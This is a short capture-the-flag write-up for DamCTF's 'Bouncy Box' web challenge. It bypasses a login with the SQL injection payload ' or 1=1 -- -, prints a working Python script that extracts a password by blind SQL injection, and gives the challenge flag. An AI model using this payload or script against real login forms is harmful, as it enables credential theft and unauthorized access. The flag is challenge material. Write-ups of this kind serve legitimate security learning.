

# Bouncy Box

Here is my writeup for the first web challenge of DamCTF

The challenge url is https://bouncy-box.chals.damctf.xyz

## First look

First we can see a little game, when we lose it asks us to login.



There is a lot of way to bypass authentication but most of time it's SQL Injection, so we can supposed that it's an SQL Injection challenge.

## First Injection

I tried to inject ``' or 1=1 -- -`` (the most basic SQLi) and it worked!


We can see a button to get the flag but it's not that easy...

We have a second login but the injection is impossible, maybe the query is prepared. So how to bypass this authent...

We can easily do a blind SQL injection on the first login form to retrieve the password. Here is my code:
```py
import requests
import string

chars = string.printable[:94]

result = ""

for i in range(1, 100):
    found = False
    for char in chars:
        data = {'username_input':f"boxy_mcbounce' AND ascii(substring(password, {i}, 1)) = {ord(char)}-- -", "password_input":"random"}
        r = requests.post("https://bouncy-box.chals.damctf.xyz/login", data=data)
        if "boxy_mcbounce's Stats" in r.text:
            result += char
            print(f"\r[\x1b[92m+\x1b[0m] Found: {result}", end="")
            found = True
            break
    if not found:
        print(f"[\x1b[92m+\x1b[0m] Password found: {result}")
        break
```

We just have to wait for the password printed and put it in the second form.

Flag: ``dam{b0uNCE_B0UNcE_b0uncE_B0uNCY_B0unce_b0Unce_b0Unc3}``